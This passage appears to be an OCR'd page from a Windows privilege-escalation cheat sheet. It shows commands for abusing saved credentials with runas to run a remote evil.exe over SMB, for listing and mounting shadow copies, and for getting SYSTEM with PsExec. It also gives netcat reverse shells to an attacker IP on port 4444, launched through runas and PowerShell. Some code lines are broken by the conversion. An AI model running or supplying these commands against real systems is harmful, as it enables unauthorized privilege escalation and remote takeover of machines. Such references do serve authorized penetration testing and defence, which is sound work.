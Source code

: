 **Then you can use runas with the /savecred options in order to use the saved credentials.**

**The following example is calling a remote binary via an SMB share.**

```
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

**Using runas with a provided set of credential.**

### EoP - Abusing Shadow Copies

**If you have local administrator access on a machine try to list shadow copies, it's an easy way for**

**Privilege Escalation.**

```
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
```

```
# List shadow copies using diskshadow
diskshadow list shadows all
```

```
# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

### EoP - From local administrator to NT SYSTEM

```
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe"
```

```
PsExec.exe -i -s cmd.exe
```

### EoP - Living Off The Land Binaries and Scripts

**Living Off The Land Binaries and Scripts (and also Libraries) : https://tinyurl.com/y6ct9yf9**

**The goal of the LOLBAS project is to document every binary, script, and library that can be**

**used for Living Off The Land techniques.**

**A LOLBin/Lib/Script must:**
